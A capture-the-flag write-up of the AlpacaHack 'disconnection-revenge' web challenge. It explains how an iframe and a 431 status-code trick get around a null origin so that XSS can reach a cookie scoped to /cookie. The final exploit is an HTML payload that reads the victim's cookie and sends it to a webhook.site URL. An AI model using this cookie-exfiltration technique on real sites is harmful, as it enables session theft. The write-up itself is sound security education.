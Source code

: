 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4663QLYEG2L%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T130137Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDUaCXVzLXdlc3QtMiJHMEUCIFB2EjmvXUY3ZwLIjCIiqAE%2FTeATvbj%2FWuI4Z7sFcdgvAiEAl2njXUnraMiLugYIzJHtcy5t0ccmpR83TiIPMtzmdVwqiAQI7v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDDWfr2%2FNPSJ3SCKKLircAz3Ptw4%2FfikeNRDDn4URo%2Fq%2BQ3N0TOcnBjf0UW47SqSAujmBuqushI78u3Zji7xRWLj31E3Lhdk%2FMrRnS2rb9E67UZwPDY55Aq2iK%2BR1fnGn03i4sXCxe7qIXyLBK73uv9wWyBfodccAYFJFDFXVFfRgri75mYJTVQr%2FbAZBB4XUL%2F4GnXKE%2Bae47w1zNUBv4vxG20lTDcwiVnIcQWdnt4EAwahOyBfGA%2B6ZB59gYZJM4tYMYydqLUW9FPqEk%2BdDcPQpH4FSZtv67zRVzTn0W0KawqiZZj%2B46CNH4j7Dw6DqX11wYQwJ7TL%2F45f3%2FzjoLMa8HNmorOlrqEdLkvFtBDXgR1HEsm10KQvhmtRyNZoITL2EGRwPqkq9S529xvVaQbBynJ8ze5wZhDcmLmmfI3aVV7OOWzgwvQGnDh2fKXOE4kilOB090r8skZenx4fIIsY1LbVFb59cLARDiu7Un%2FX00eidSu2dZ%2BKfFspGPgJbkZZJK9AF%2Fnst6trhy8jsblYaydPKapu1F2xhExgBsipt75p7jd69oMAq70G0%2FWCPXvCWml%2BUtKYyf21RGZXboSqFObrO0NzgPVCyg6LF2rO%2BmyHSllIoWdehz%2BbI5URdfa5h4PYUvSbmkGkLMJHYwcEGOqUBH%2BFDQ5N3KxGsItYOLoJlrbTe5QjJSS7RWVDGqFmCZ83AJ0%2BMHP%2BPnq6GWDa3mYGyYz2PvrhlpbiU%2F6VU9tz7ZFgW%2B6N3HPu9k4XoShFMmo7UG69Mt%2FHYhcKVKlDzeo1KUv%2BYJZ9OhNXYN%2F6kKO2IrEd8Fa1WSGYe7JRQlSbwNWDSZ6bYAYswl2zeQvXntBQqB2Sf6qfVDU7HET6s91dB9PipziWA\&X-Amz-Signature=5eb950131a00bd8fdbe6fcab8340c26456a0ad444402f1c0e140118179077b25\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
